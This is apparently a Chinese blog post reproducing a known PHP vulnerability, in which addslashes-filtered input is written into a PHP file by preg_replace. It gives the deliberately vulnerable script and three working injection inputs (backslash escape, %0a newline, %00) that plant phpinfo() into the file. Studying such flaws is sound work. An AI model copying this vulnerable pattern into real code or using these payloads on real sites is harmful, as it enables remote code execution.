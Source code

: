 ```yaml
---
title: "一个PHP正则相关的“经典漏洞”"
date: 2017-02-28 16:29:56 +0800
img: /assets/images/201702/28-01.png

categories: 转载验证
tags: [php, 正则表达式, 网络安全]
---
```

1. 文件准备
    example.php 文件
    ```php
    <?php
    $str = addslashes($_GET['option']);
    $file = file_get_contents('example_test.php');
    $file = preg_replace('|\$option=\'.*\';|',"\$option='$str';", $file);
    var_dump($str, $file);
    file_put_contents('example_test.php', $file);
    ```
    ![example.php](/assets/images/201702/28-01.png)

    example_test.php 文件
    ```php
    <?php
    $option='hello';
    echo $option;
    ```
    ![example_test.php](/assets/images/201702/28-02.png)

**注入方法**

方法一: 利用反斜杠, 输入`\';phpinfo();//`

`http://example.com/example.php?option=\%27;phpinfo();//`

```php
string(17) "\\\';phpinfo();//"
string(50) "<?php

$option='\\';phpinfo();//';

echo $option;
"
```

方法二: 利用正则, 输入`aaa';phpinfo();%0a//`

`http://example.com/example.php?option=aaa%27;phpinfo();%0a//`

```php
string(19) "aaa\';phpinfo();
//"
string(53) "<?php

$option='aaa\';phpinfo();
//';

echo $option;
"
```
方法三: 利用 `%00`

1. 输入`;phpinfo();`, `http://example.com/example.php?option=;phpinfo();`

    ```php
    string(11) ";phpinfo();"
    string(45) "<?php

    $option=';phpinfo();';

    echo $option;
    "
    ```
1. 再次输入`%00`, `http://example.com/example.php?option=%00`

    ```php
    string(2) "\0"
    string(56) "<?php

    $option='$option=';phpinfo();';';

    echo $option;
    "
    ```

> 本文为验证,`原文`有解析: [https://www.cdxy.me/?p=756](https://www.cdxy.me/?p=756)

---
## 参考文档
- [一个PHP正则相关的“经典漏洞”](https://www.cdxy.me/?p=756)
